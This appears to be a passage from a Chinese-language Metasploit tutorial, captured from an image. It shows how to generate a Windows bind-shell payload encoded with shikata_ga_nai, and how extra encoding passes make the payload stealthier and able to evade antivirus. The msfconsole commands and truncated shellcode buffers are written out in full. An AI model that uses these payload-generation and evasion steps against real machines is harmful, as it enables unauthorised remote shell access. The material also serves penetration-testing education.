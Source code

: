 ```
"\xf5\x2f\xc2\x2c\x5b\xc4\x51\x40\x74\xeb\xd2\xef\xa2\xc2" +
"\xe3\xc1\x6a\x88\x27\x43\x17\xd3\x7b\xa3\x26\x1c\x8e\xa2" +
"\x6f\x41\x60\xf6\x38\x0d\xd2\xe7\x4d\x53\xee\x06\x82\xdf" +
"\x4e\x71\xa7\x20\x3a\xcb\xa6\x70\x92\x40\xe0\x68\x99\x0f" +
"\xd1\x89\x4e\x4c\x2d\xc3\xfb\xa7\xc5\xd2\x2d\xf6\x26\xe5" +
...snip...
```

##### 使用多个passes生成攻击载荷

使用参数 ```-i``` 我们可以设定多少个 passes 被加入攻击载荷。加入passes的目的是：
- 需要隐秘
- 需要免杀

让我们比较一下使用passes的攻击载荷：

第一种：
```shell

msf  payload(shell_bind_tcp) > generate -b '\x00'
# windows/shell_bind_tcp - 368 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xdb\xd9\xb8\x41\x07\x94\x72\xd9\x74\x24\xf4\x5b\x2b\xc9" +
"\xb1\x56\x31\x43\x18\x03\x43\x18\x83\xeb\xbd\xe5\x61\x8e" +
"\xd5\x63\x89\x6f\x25\x14\x03\x8a\x14\x06\x77\xde\x04\x96" +
"\xf3\xb2\xa4\x5d\x51\x27\x3f\x13\x7e\x48\x88\x9e\x58\x67" +
"\x09\x2f\x65\x2b\xc9\x31\x19\x36\x1d\x92\x20\xf9\x50\xd3" +
"\x65\xe4\x9a\x81\x3e\x62\x08\x36\x4a\x36\x90\x37\x9c\x3c" +
...snip...
```

第二种：
```shell
msf  payload(shell_bind_tcp) > generate -b '\x00' -i 2
# windows/shell_bind_tcp - 395 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xbd\xea\x95\xc9\x5b\xda\xcd\xd9\x74\x24\xf4\x5f\x31\xc9" +
"\xb1\x5d\x31\x6f\x12\x83\xc7\x04\x03\x85\x9b\x2b\xae\x80" +
"\x52\x72\x25\x16\x6f\x3d\x73\x9c\x0b\x38\x26\x11\xdd\xf4" +
"\x80\xd2\x1f\xf2\x1d\x96\x8b\xf8\x1f\xb7\x9c\x8f\x65\x96" +
"\xf9\x15\x99\x69\x57\x18\x7b\x09\x1c\xbc\xe6\xb9\xc5\xde" +
"\xc1\x81\xe7\xb8\xdc\x3a\x51\xaa\x34\xc0\x82\x7d\x6e\x45" +
"\xeb\x2b\x27\x08\x79\xfe\x8d\xe3\x2a\xed\x14\xe7\x46\x45" +
...snip...
```
